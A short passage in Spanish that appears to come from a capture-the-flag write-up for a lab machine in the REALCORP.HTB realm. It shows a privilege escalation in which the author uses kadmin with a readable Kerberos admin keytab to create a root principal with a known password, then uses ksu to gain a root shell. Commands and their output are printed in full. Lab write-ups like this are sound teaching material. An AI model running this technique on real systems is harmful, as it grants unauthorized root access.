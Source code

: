 Agregamos el usuario root con la password

[admin@srv01 etc]$ kadmin -k -t /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB -q "add_principal -pw test root@REALCORP.HTB"
Couldn't open log file /var/log/kadmind.log: Permission denied
Authenticating as principal kadmin/admin@REALCORP.HTB with keytab /etc/krb5.keytab.
No policy specified for root@REALCORP.HTB; defaulting to no policy
Principal "root@REALCORP.HTB" created.

Ahora podemos usar ksu (ksu - Kerberized super-user) para su a root. (El archivo Keytab se restablece periódicamente, por lo que debemos ser rápidos).

```bash
[admin@srv01 etc]$ ksu
WARNING: Your password may be exposed if you enter it here and are logged 
         in remotely using an unsecure (non-encrypted) channel. 
Kerberos password for root@REALCORP.HTB: : 
Authenticated root@REALCORP.HTB
Account root: authorization for root@REALCORP.HTB successful
Changing uid to root (0)
[root@srv01 etc]#
```

Iniciamos Sesion con exito como root.